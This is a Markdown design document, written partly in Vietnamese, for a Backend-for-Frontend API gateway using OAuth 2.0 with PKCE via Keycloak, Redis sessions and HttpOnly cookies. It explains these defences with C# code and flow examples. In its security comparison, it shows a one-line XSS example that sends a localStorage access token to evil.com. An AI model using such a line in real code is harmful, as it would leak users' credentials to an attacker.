

# BFF Architecture & Authentication Flow

## 📋 Mục Lục

1. [BFF Pattern Overview](#bff-pattern-overview)
2. [Architecture Components](#architecture-components)
3. [Complete Authentication Flow](#complete-authentication-flow)
4. [API Call Flow](#api-call-flow)
5. [Security Features](#security-features)
6. [Redis Data Structures](#redis-data-structures)

---

## 🏗️ BFF Pattern Overview

### What is BFF (Backend-for-Frontend)?

**BFF Pattern** là kiến trúc trong đó **API Gateway đóng vai trò trung gian (proxy)** giữa browser/frontend và các backend services. Gateway quản lý authentication, session, và tokens thay vì để browser xử lý trực tiếp.

### Architecture Diagram

```
┌─────────────────────────────────────────────────────────────────────────┐
│                            Browser (Frontend)                            │
│                                                                           │
│  - React/Vue/Angular SPA                                                 │
│  - NO tokens stored (XSS safe)                                          │
│  - Only HttpOnly session cookie                                         │
│  - Calls: fetch('/api/...', { credentials: 'include' })                │
└───────────────────────────┬─────────────────────────────────────────────┘
                            │
                  HttpOnly Cookie: session_id
                            │
┌───────────────────────────▼─────────────────────────────────────────────┐
│                          API Gateway                                     │
│                                                                           │
│  Components:                                                             │
│  ├── AuthController         - Proxy auth requests to Auth Service      │
│  ├── SessionValidationMiddleware - Validate session via Auth Service    │
│  ├── TokenDelegatingHandler - Inject Bearer token to requests          │
│  └── RBAC Policies         - Role-based authorization                  │
│                                                                           │
│  Responsibilities:                                                       │
│  ✅ Simple routing and session validation                              │
│  ✅ RBAC enforcement at gateway level                                  │
│  ✅ Bearer token injection to downstream services                      │
│  ❌ NO OAuth logic (moved to Auth Service)                             │
└──────────┬──────────────────────────┬──────────────────────────────────┘
           │                          │
    Bearer Token              Session Validation
           │                          │
┌──────────▼─────────┐   ┌────────────▼──────────────────────────────────┐
│  Backend Services  │   │         Auth Service                           │
│                    │   │                                                 │
│  - Base.API        │   │  Components:                                   │
│  - Generate.API    │   │  ├── PkceService     - PKCE generation        │
│  - Other services  │   │  ├── SessionManager  - Session management     │
│                    │   │  └── OAuthClient     - Keycloak communication │
│  PBAC Enforcement: │   │                                                 │
│  ✅ JWT validation │   │  Responsibilities:                             │
│  ✅ Fine-grained   │   │  ✅ OAuth 2.0 + PKCE flow                     │
│     permissions    │   │  ✅ Token exchange & refresh                  │
│  ✅ Business logic │   │  ✅ Session storage in Redis                  │
│     authorization  │   │  ✅ Token lifecycle management                │
└────────────────────┘   └─────────────┬─────────────────────────────────┘
                                       │
                                OAuth 2.0 + PKCE
                                       │
                         ┌─────────────▼─────────────────────────────────┐
                         │     Keycloak (Identity Provider)              │
                         │                                                │
                         │  - Authorization Server                       │
                         │  - Issues JWT tokens                          │
                         │  - Validates PKCE                             │
                         │  - User authentication                        │
                         │  - Roles & permissions management             │
                         └───────────────────────────────────────────────┘
```

### BFF vs Traditional SPA

| Aspect | BFF Pattern (Gateway giữ tokens) | Traditional SPA (Browser giữ tokens) |
|--------|----------------------------------|--------------------------------------|
| **Token Storage** | ✅ Redis (server-side) | ❌ localStorage/sessionStorage |
| **Browser Receives** | ✅ HttpOnly cookie | ❌ access_token (JSON) |
| **XSS Security** | ✅ Safe - tokens không lộ ra browser | ❌ Vulnerable - XSS có thể đánh cắp tokens |
| **Token Refresh** | ✅ Automatic ở backend | ❌ Frontend phải tự xử lý |
| **Logout/Revoke** | ✅ Server-side, hiệu quả ngay | ❌ Token vẫn valid đến khi expire |
| **CORS** | ✅ Chỉ config Browser ↔ Gateway | ❌ Config cho tất cả services |
| **Complexity** | ⚠️ Cần setup BFF layer | ✅ Đơn giản - call API trực tiếp |
| **Performance** | ⚠️ Thêm 1 hop | ✅ Direct call |
| **Production Ready** | ✅ Best practice | ❌ Chỉ nên dùng cho prototypes |

### Security Benefits of BFF

1. **🛡️ Tokens không bao giờ lộ ra browser**
   - Access token & refresh token lưu trong Redis
   - Browser chỉ có session cookie (HttpOnly)
   - XSS attacks không thể đánh cắp tokens

2. **🔒 Cookie Security**
   - `HttpOnly`: JavaScript không thể truy cập
   - `Secure`: Chỉ gửi qua HTTPS
   - `SameSite=Lax/Strict`: Chống CSRF

3. **🔄 Automatic Token Management**
   - Gateway tự động refresh khi token sắp hết hạn
   - Frontend không cần biết về token lifecycle

4. **🚪 Centralized Session Control**
   - Revoke tokens tập trung (xóa Redis key)
   - Force logout từ server
   - Logout khỏi tất cả devices

---

## 🔧 Architecture Components

### Gateway Components

#### 1. Gateway AuthController (Proxy)

**Location:** `ApiGateway/Controllers/AuthController.cs`

**Responsibilities:**
- Proxy authentication requests to Auth Service
- Set/clear HttpOnly cookies based on Auth Service responses
- Simple routing, no business logic

**Key Methods:**
```csharp
[HttpGet("login")]
public async Task<IActionResult> Login(string returnUrl)
{
    // Proxy to Auth Service: POST /api/auth/login/initiate
    // Redirect to authorization URL received from Auth Service
}

[HttpGet("signin-oidc")]
public async Task<IActionResult> SignInCallback(string code, string state)
{
    // Proxy to Auth Service: POST /api/auth/login/callback
    // Receive session_id and set HttpOnly cookie
    // Redirect to returnUrl
}

[HttpPost("logout")]
public async Task<IActionResult> Logout()
{
    // Get session_id from cookie
    // Proxy to Auth Service: POST /api/auth/logout
    // Clear cookie
}
```

### Auth Service Components

#### 1. Auth Service AuthController

**Location:** `Auth.API/Controllers/AuthController.cs`

**Responsibilities:**
- Handle OAuth 2.0 + PKCE flow with Keycloak
- Manage session lifecycle
- Token exchange and refresh

**Key Endpoints:**
```csharp
[HttpPost("login/initiate")]
public async Task<ActionResult<LoginResponse>> InitiateLogin([FromBody] LoginRequest request)
{
    // 1. Generate PKCE (code_verifier, code_challenge, state)
    // 2. Store PKCE in Redis
    // 3. Build and return Keycloak authorization URL
}

[HttpPost("login/callback")]
public async Task<ActionResult<SignInCallbackResponse>> ProcessCallback([FromBody] SignInCallbackRequest request)
{
    // 1. Validate state parameter
    // 2. Get PKCE data from Redis
    // 3. Exchange code + code_verifier for tokens
    // 4. Create session in Redis
    // 5. Return session_id to Gateway
}

[HttpPost("logout")]
public async Task<IActionResult> Logout([FromBody] LogoutRequest request)
{
    // 1. Get session from Redis
    // 2. Revoke tokens at Keycloak
    // 3. Delete session from Redis
}

[HttpGet("session/{sessionId}/validate")]
public async Task<ActionResult<SessionValidationResponse>> ValidateSession(string sessionId)
{
    // 1. Get session from Redis
    // 2. Check if token needs refresh
    // 3. Refresh token if needed
    // 4. Return access_token and validity status
}
```

#### 2. SessionValidationMiddleware (Gateway)

**Location:** `ApiGateway/Middlewares/SessionValidationMiddleware.cs`

**Responsibilities:**
- Validate session cookie on every request
- Call Auth Service to validate session and get access_token
- Parse JWT and set HttpContext.User for RBAC
- Store access_token in HttpContext.Items for TokenDelegatingHandler

**Flow:**
```csharp
public async Task InvokeAsync(HttpContext context)
{
    // 1. Check if request needs authentication (skip health check, swagger, etc.)
    if (ShouldSkipValidation(context))
    {
        await _next(context);
        return;
    }
    
    // 2. Get session_id from cookie
    var sessionId = context.Request.Cookies["session_id"];
    if (string.IsNullOrEmpty(sessionId))
    {
        context.Response.StatusCode = 401;
        return;
    }
    
    // 3. Validate session via Auth Service
    // Auth Service handles token refresh automatically
    var validationResponse = await CallAuthServiceValidateSession(sessionId);
    
    if (validationResponse == null || !validationResponse.IsValid)
    {
        context.Response.StatusCode = 401;
        return;
    }
    
    // 4. Parse JWT and set HttpContext.User for RBAC
    SetUserContextFromJwt(context, validationResponse.AccessToken);
    
    // 5. Store access token for TokenDelegatingHandler
    context.Items["AccessToken"] = validationResponse.AccessToken;
    
    // 6. Continue pipeline
    await _next(context);
}
```

#### 3. TokenDelegatingHandler (Gateway)

**Location:** `ApiGateway/Handlers/TokenDelegatingHandler.cs`

**Responsibilities:**
- Inject Bearer token vào mọi downstream requests to backend services

**Implementation:**
```csharp
protected override async Task<HttpResponseMessage> SendAsync(
    HttpRequestMessage request,
    CancellationToken cancellationToken)
{
    // Get access token from HttpContext
    var accessToken = _httpContextAccessor.HttpContext?.Items["AccessToken"] as string;
    
    if (!string.IsNullOrEmpty(accessToken))
    {
        request.Headers.Authorization = 
            new AuthenticationHeaderValue("Bearer", accessToken);
    }
    
    return await base.SendAsync(request, cancellationToken);
}
```

#### 4. PkceService (Auth Service)

**Location:** `Auth.Infrastructure/Services/PkceService.cs`

**Responsibilities:**
- Generate PKCE data (code_verifier, code_challenge)
- Store PKCE in Redis
- Retrieve and remove PKCE (one-time use for security)

**Implementation:**
```csharp
public async Task<PkceData> GeneratePkceAsync(string redirectUri)
{
    // Generate code_verifier (64 random chars)
    var codeVerifier = GenerateCodeVerifier();
    
    // Generate code_challenge = base64url(sha256(code_verifier))
    var codeChallenge = GenerateCodeChallenge(codeVerifier);
    
    // Generate state (32 random chars)
    var state = GenerateState();
    
    var pkceData = new PkceData
    {
        CodeVerifier = codeVerifier,
        CodeChallenge = codeChallenge,
        CodeChallengeMethod = "S256",
        State = state,
        RedirectUri = redirectUri,
        ExpiresAt = DateTime.UtcNow.AddMinutes(_bffSettings.PkceExpirationMinutes)
    };
    
    // Store in Redis with TTL = 10 minutes
    await _redisRepository.SetAsync(
        key: $"{_authSettings.InstanceName}pkce:{state}",
        value: pkceData,
        expiry: TimeSpan.FromMinutes(_authSettings.PkceExpirationMinutes)
    );
    
    return pkceData;
}
```

#### 5. SessionManager (Auth Service)

**Location:** `Auth.Infrastructure/Services/SessionManager.cs`

**Responsibilities:**
- Create user sessions from token response
- Get/update/delete sessions in Redis
- Manage session TTL (sliding + absolute expiration)
- Parse JWT and extract user claims

**Implementation:**
```csharp
public async Task<UserSession> CreateSessionAsync(TokenResponse tokenResponse)
{
    var sessionId = GenerateSessionId();
    
    // Parse JWT to extract user info
    var jwtHandler = new JwtSecurityTokenHandler();
    var jwt = jwtHandler.ReadJwtToken(tokenResponse.AccessToken);
    
    var session = new UserSession
    {
        SessionId = sessionId,
        AccessToken = tokenResponse.AccessToken,
        RefreshToken = tokenResponse.RefreshToken,
        ExpiresAt = DateTime.UtcNow.AddSeconds(tokenResponse.ExpiresIn),
        UserId = jwt.Claims.FirstOrDefault(c => c.Type == "sub")?.Value,
        Username = jwt.Claims.FirstOrDefault(c => c.Type == "preferred_username")?.Value,
        Email = jwt.Claims.FirstOrDefault(c => c.Type == "email")?.Value,
        Roles = ExtractRoles(jwt),
        CreatedAt = DateTime.UtcNow,
        LastAccessedAt = DateTime.UtcNow
    };
    
    // Store in Redis with TTL
    await _redisRepository.SetAsync(
        key: $"{_authSettings.InstanceName}session:{sessionId}",
        value: session,
        expiry: TimeSpan.FromMinutes(_authSettings.SessionSlidingExpirationMinutes)
    );
    
    return session;
}
```

#### 6. OAuthClient (Auth Service)

**Location:** `Auth.Infrastructure/Services/OAuthClient.cs`

**Responsibilities:**
- Communicate with Keycloak OAuth endpoints
- Exchange authorization code for tokens
- Refresh access tokens
- Revoke tokens on logout

**Implementation:**
```csharp
public async Task<TokenResponse> ExchangeCodeForTokensAsync(string code, string codeVerifier)
{
    var request = new HttpRequestMessage(HttpMethod.Post, _oauthSettings.TokenEndpoint);
    request.Content = new FormUrlEncodedContent(new[]
    {
        new KeyValuePair<string, string>("grant_type", "authorization_code"),
        new KeyValuePair<string, string>("code", code),
        new KeyValuePair<string, string>("code_verifier", codeVerifier),
        new KeyValuePair<string, string>("client_id", _oauthSettings.ClientId),
        new KeyValuePair<string, string>("client_secret", _oauthSettings.ClientSecret),
        new KeyValuePair<string, string>("redirect_uri", 
            $"{_oauthSettings.Authority}{_oauthSettings.RedirectUri}")
    });
    
    var response = await _httpClient.SendAsync(request);
    response.EnsureSuccessStatusCode();
    
    var content = await response.Content.ReadAsStringAsync();
    return JsonSerializer.Deserialize<TokenResponse>(content);
}
```

---

## 🔐 Complete Authentication Flow

### Flow Diagram



### Step-by-Step Flow

#### Step 1: Login Initiation

**Browser:**
```javascript
// User clicks "Login" button
window.location.href = '/auth/login?returnUrl=/dashboard';
```

**Gateway (AuthController.Login):**
```csharp
public async Task<IActionResult> Login(string returnUrl)
{
    // 1. Generate PKCE
    var pkceData = await _pkceService.GeneratePkceAsync(returnUrl);
    
    // 2. Build authorization URL
    var authUrl = $"{_oauthSettings.AuthorizationEndpoint}" +
        $"?response_type=code" +
        $"&client_id={_oauthSettings.ClientId}" +
        $"&redirect_uri={_oauthSettings.RedirectUri}" +
        $"&scope={string.Join("%20", _oauthSettings.Scopes)}" +
        $"&state={pkceData.State}" +
        $"&code_challenge={pkceData.CodeChallenge}" +
        $"&code_challenge_method=S256";
    
    // 3. Redirect to Keycloak
    return Redirect(authUrl);
}
```

**Redis:**
```
Key: BFF_pkce:state_xyz123
Value: {
  "codeVerifier": "abc...xyz",
  "codeChallenge": "BASE64_SHA256",
  "state": "state_xyz123",
  "redirectUri": "/dashboard",
  "expiresAt": "2025-11-04T10:10:00Z"
}
TTL: 600 seconds (10 minutes)
```

#### Step 2: User Authentication at Keycloak

**Browser → Keycloak:**
```
User nhập credentials:
Username: testuser
Password: Test@123

Keycloak validates → tạo authorization code
```

**Keycloak → Browser:**
```
302 Redirect to:
http://localhost:5238/auth/signin-oidc?code=AUTH_CODE_ABC&state=state_xyz123
```

#### Step 3: Token Exchange

**Browser → Gateway:**
```
GET /auth/signin-oidc?code=AUTH_CODE_ABC&state=state_xyz123
```

**Gateway (AuthController.SignInCallback):**
```csharp
public async Task<IActionResult> SignInCallback(string code, string state)
{
    // 1. Validate state
    if (string.IsNullOrEmpty(code) || string.IsNullOrEmpty(state))
    {
        return BadRequest("Invalid callback parameters");
    }
    
    // 2. Get and remove PKCE data
    var pkceData = await _pkceService.GetAndRemovePkceAsync(state);
    if (pkceData == null)
    {
        return BadRequest("Invalid or expired state parameter");
    }
    
    // 3. Exchange code for tokens
    var tokenResponse = await _oauthClient.ExchangeCodeForTokensAsync(
        code, 
        pkceData.CodeVerifier);
    
    // 4. Create session
    var session = await _sessionManager.CreateSessionAsync(tokenResponse);
    
    // 5. Set HttpOnly cookie
    Response.Cookies.Append("session_id", session.SessionId, new CookieOptions
    {
        HttpOnly = true,
        Secure = true,
        SameSite = SameSiteMode.Lax,
        MaxAge = TimeSpan.FromMinutes(_bffSettings.SessionAbsoluteExpirationMinutes)
    });
    
    // 6. Redirect to return URL
    return Redirect(pkceData.RedirectUri ?? "/");
}
```

**Gateway → Keycloak:**
```http
POST /realms/base-realm/protocol/openid-connect/token
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code
&code=AUTH_CODE_ABC
&code_verifier=abc...xyz
&client_id=api-gateway
&client_secret=CLIENT_SECRET
&redirect_uri=http://localhost:5238/auth/signin-oidc
```

**Keycloak → Gateway:**
```json
{
  "access_token": "eyJhbGc...",
  "token_type": "Bearer",
  "expires_in": 300,
  "refresh_token": "eyJhbGc...",
  "refresh_expires_in": 1800,
  "id_token": "eyJhbGc..."
}
```

**Gateway → Redis:**
```
Key: BFF_session:SESSION_ID_123
Value: {
  "sessionId": "SESSION_ID_123",
  "accessToken": "eyJhbGc...",
  "refreshToken": "eyJhbGc...",
  "expiresAt": "2025-11-04T10:05:00Z",
  "userId": "user-uuid-123",
  "username": "testuser",
  "email": "testuser@example.com",
  "roles": ["admin", "user"],
  "createdAt": "2025-11-04T10:00:00Z",
  "lastAccessedAt": "2025-11-04T10:00:00Z"
}
TTL: 28800 seconds (8 hours, sliding)
```

**Gateway → Browser:**
```http
HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: session_id=SESSION_ID_123; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=28800
```

#### Step 4: Browser has Session Cookie

```
Browser giờ có cookie:
session_id=SESSION_ID_123

Mọi request tới Gateway sẽ tự động gửi cookie này
```

---

## 🔄 API Call Flow

### Authenticated API Request

**Browser → Gateway:**
```javascript
fetch('/api/products', {
    credentials: 'include'  // Tự động gửi cookies
})
```

```http
GET /api/products HTTP/1.1
Host: localhost:5238
Cookie: session_id=SESSION_ID_123
```

**SessionValidationMiddleware:**
```csharp
// 1. Extract session_id from cookie
var sessionId = context.Request.Cookies["session_id"];

// 2. Load session from Redis
var session = await _sessionManager.GetSessionAsync(sessionId);

// 3. Check if token needs refresh
if (session.NeedsRefresh())  // < 60s before expiry
{
    var tokenResponse = await _oauthClient.RefreshTokenAsync(session.RefreshToken);
    session.AccessToken = tokenResponse.AccessToken;
    session.RefreshToken = tokenResponse.RefreshToken;
    await _sessionManager.UpdateSessionAsync(session);
}

// 4. Store access token for downstream
context.Items["AccessToken"] = session.AccessToken;
```

**Ocelot Routing:**
```
/api/products → http://localhost:5239/api/products
```

**TokenDelegatingHandler:**
```csharp
// Inject Bearer token
request.Headers.Authorization = 
    new AuthenticationHeaderValue("Bearer", accessToken);
```

**Gateway → Backend API:**
```http
GET /api/products HTTP/1.1
Host: localhost:5239
Authorization: Bearer eyJhbGc...
```

**Backend API:**
```csharp
[Authorize]  // Validates JWT
[HttpGet]
public async Task<IActionResult> GetProducts()
{
    // JWT validated, user authenticated
    var products = await _productService.GetAllAsync();
    return Ok(products);
}
```

**Backend API → Gateway → Browser:**
```json
HTTP/1.1 200 OK
Content-Type: application/json

[
  { "id": 1, "name": "Product 1", "price": 1000000 },
  { "id": 2, "name": "Product 2", "price": 2000000 }
]
```

---

## 🛡️ Security Features

### 1. PKCE (Proof Key for Code Exchange)

**Purpose:** Chống code interception attack

**How it works:**
```
1. Gateway tạo code_verifier (random 64 chars)
2. Gateway hash: code_challenge = SHA256(code_verifier)
3. Gateway gửi code_challenge lên Keycloak
4. Keycloak lưu code_challenge, trả về authorization code
5. Attacker có thể intercept code, nhưng KHÔNG có code_verifier
6. Gateway gửi code + code_verifier để đổi tokens
7. Keycloak verify: SHA256(code_verifier) == code_challenge?
8. Nếu match → OK, nếu không → reject

→ Attacker không thể dùng stolen code vì thiếu code_verifier
```

### 2. HttpOnly Cookies

**Purpose:** Chống XSS attack

**Configuration:**
```csharp
Response.Cookies.Append("session_id", sessionId, new CookieOptions
{
    HttpOnly = true,     // ✅ JavaScript không thể đọc
    Secure = true,       // ✅ Chỉ gửi qua HTTPS
    SameSite = SameSiteMode.Lax,  // ✅ Chống CSRF
    MaxAge = TimeSpan.FromHours(8)
});
```

**Protection:**
```javascript
// XSS attack fails:
console.log(document.cookie);  // không thấy session_id

// Fetch automatically sends cookie:
fetch('/api/products', { credentials: 'include' });  // ✅ Works
```

### 3. State Parameter (CSRF Protection)

**Purpose:** Chống CSRF trong OAuth flow

**How it works:**
```
1. Gateway tạo random state
2. Lưu state vào Redis (liên kết với PKCE data)
3. Gửi state lên Keycloak trong authorization URL
4. Keycloak trả về state khi callback
5. Gateway so sánh: state từ callback == state trong Redis?
6. Nếu match → OK, nếu không → reject

→ Attacker không thể fake callback request vì không biết state
```

### 4. Token Storage in Backend

**Comparison:**

❌ **Traditional SPA (Insecure):**
```javascript
// Tokens lưu trong browser
localStorage.setItem('access_token', token);
// XSS có thể đọc:
fetch('https://evil.com/steal?token=' + localStorage.getItem('access_token'));
```

✅ **BFF Pattern (Secure):**
```
Tokens lưu trong Redis (backend):
Key: BFF_session:abc123
Value: { accessToken, refreshToken, ... }

Browser chỉ có: Cookie: session_id=abc123
→ XSS không lấy được token
→ CSRF protection bởi SameSite=Lax
```

### 5. Automatic Token Refresh

**Purpose:** Transparent cho frontend

**Implementation:**
```csharp
// SessionValidationMiddleware
if (session.ExpiresAt < DateTime.UtcNow.AddSeconds(60))
{
    // Token expires trong < 60s → refresh
    var tokenResponse = await _oauthClient.RefreshTokenAsync(session.RefreshToken);
    session.AccessToken = tokenResponse.AccessToken;
    session.RefreshToken = tokenResponse.RefreshToken;
    session.ExpiresAt = DateTime.UtcNow.AddSeconds(tokenResponse.ExpiresIn);
    
    await _sessionManager.UpdateSessionAsync(session);
}
```

**Frontend không cần:**
- Check token expiration
- Call refresh endpoint manually
- Handle refresh token logic

---

## 💾 Redis Data Structures

### Session Data

```
Key Pattern: BFF_session:{sessionId}
TTL: 28800 seconds (8 hours, sliding)

Value (JSON):
{
    "sessionId": "abc123xyz...",
    "accessToken": "eyJhbGc...",           // JWT, 5 min
    "refreshToken": "eyJhbGc...",          // JWT, 30 min
    "idToken": "eyJhbGc...",               // OIDC ID token
    "tokenType": "Bearer",
    "expiresAt": "2025-11-04T10:05:00Z",   // Access token expiry
    "createdAt": "2025-11-04T10:00:00Z",
    "lastAccessedAt": "2025-11-04T10:02:30Z",  // Updated on each request
    "userId": "user-uuid-123",
    "username": "testuser",
    "email": "testuser@example.com",
    "roles": ["user", "admin"],
    "claims": {
        "name": "Test User",
        "given_name": "Test",
        "family_name": "User"
    }
}

Example:
Key: BFF_session:a1b2c3d4e5f6
TTL: 28753 seconds (7h 59m 13s)
```

### PKCE Data

```
Key Pattern: BFF_pkce:{state}
TTL: 600 seconds (10 minutes)

Value (JSON):
{
    "codeVerifier": "abc123xyz...",           // 64 chars random
    "codeChallenge": "BASE64_SHA256_HASH",    // SHA256(verifier)
    "codeChallengeMethod": "S256",
    "state": "state_xyz123",                  // 32 chars random
    "redirectUri": "/dashboard",
    "createdAt": "2025-11-04T09:55:00Z",
    "expiresAt": "2025-11-04T10:05:00Z"
}

Example:
Key: BFF_pkce:state_xyz123abc
TTL: 587 seconds (9m 47s)

Note: PKCE data bị xóa ngay sau khi sử dụng (one-time use)
```

### Redis Commands for Debugging

```bash
# Connect to Redis
docker exec -it redis redis-cli

# List all BFF keys
KEYS BFF_*

# Get session data
GET BFF_session:abc123...

# Get session TTL
TTL BFF_session:abc123...

# Check PKCE data (before callback)
GET BFF_pkce:state_xyz...

# Delete session (force logout)
DEL BFF_session:abc123...

# Count active sessions
KEYS BFF_session:* | wc -l
```

---

## 🔍 Troubleshooting

### Issue 1: "Invalid or expired state parameter"

**Causes:**
- PKCE data không tồn tại trong Redis
- User gọi trực tiếp Keycloak (bỏ qua `/auth/login`)
- PKCE data đã expire (> 10 phút)

**Solutions:**
- ✅ Luôn bắt đầu từ `/auth/login`
- ✅ Complete flow trong vòng 10 phút
- ❌ KHÔNG mở trực tiếp Keycloak URL

### Issue 2: "Unauthorized" (401) khi call API

**Causes:**
- Session đã expire
- Cookie không được gửi (CORS issue)
- Token đã expire và refresh failed

**Solutions:**
- Check cookie `session_id` còn tồn tại không
- Verify CORS settings: `AllowCredentials = true`
- Check Gateway logs xem token refresh có thành công không

### Issue 3: Cookie không được gửi từ frontend

**Causes:**
- CORS không config đúng
- `credentials: 'include'` bị thiếu
- Domain mismatch

**Solutions:**
```csharp
// Gateway CORS config
builder.Services.AddCors(options =>
{
    options.AddPolicy("AllowWebApp", corsBuilder =>
    {
        corsBuilder
            .WithOrigins("http://localhost:3000")  // Frontend URL
            .AllowAnyMethod()
            .AllowAnyHeader()
            .AllowCredentials();  // ⚠️ REQUIRED!
    });
});
```

```javascript
// Frontend fetch
fetch('/api/products', {
    credentials: 'include'  // ⚠️ REQUIRED!
})
```

---

## 📚 References

- [OAuth 2.0 BFF Pattern](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-browser-based-apps)
- [PKCE RFC 7636](https://datatracker.ietf.org/doc/html/rfc7636)
- [HttpOnly Cookies](https://owasp.org/www-community/HttpOnly)
- [SameSite Cookies](https://web.dev/samesite-cookies-explained/)

---

**💡 Key Takeaway**: BFF Pattern là best practice cho production web apps. Trade-off nhỏ về complexity và performance đổi lại security tăng đáng kể.

